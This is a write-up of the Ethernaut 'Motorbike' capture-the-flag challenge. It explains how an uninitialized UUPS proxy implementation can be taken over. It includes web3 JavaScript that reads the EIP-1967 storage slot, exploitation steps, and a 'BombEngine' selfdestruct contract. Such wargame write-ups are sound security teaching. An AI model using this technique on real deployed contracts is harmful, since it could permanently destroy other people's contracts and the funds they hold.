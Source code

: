 ## Motorbike

**Challenge description**

> Ethernaut's motorbike has a brand new upgradeable engine design. 
>  Would you be able to selfdestruct its engine and make the motorbike unusable ?
>Things that might help:
    EIP-1967
    UUPS upgradeable pattern
    Initializable contract

**Analysis**

To solve this challenge, we need to be familiar with both [Initializable](https://github.com/OpenZeppelin/openzeppelin-upgrades/blob/master/packages/core/contracts/Initializable.sol) and most importantly  the [EIP-1967](https://eips.ethereum.org/EIPS/eip-1967)

After going through all the reading material, as usual I drew the diagram to understand the core logic of the contracts.

![Motorbike Diagram](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138012/3ac10a42b6cb747f06aad171856c6d4814105583603857fbc5fd1e2549969c23_usrhte.png)  

After drawing the diagram, I had many unanswered questions the most important one did we `initialize` the engine contract or not !
I really know where the address of the *Engine* contract is in storage so I can check that !

```js
const engineAddress = await web3.eth.getStorageAt(instance,'0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc');

// let's check the value
await web3.eth.call({to:engineAddress,from:player,data:web3.eth.abi.encodeFunctionSignature('upgrader()')})
// returned 0x000000
// the initialize() wasn't called and that's our -----
**Exploitation** !
```


**Exploitation**

1. initialize the *Engine* contract so we become the **upgrader**.
2. upgrade our *Engine* contract to our bomb contract ( which will selfdestruct )
3. call selfdestruct, the call will be done through *delegateCall* so the actual *Engine* will be destructed !

our evil contract

```js
contract BombEngine { 
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    function destruct() public {
        selfdestruct( payable ( 0x84e7a3679A82C2766Ff8382862ab883FF9460307));
    }
}
```
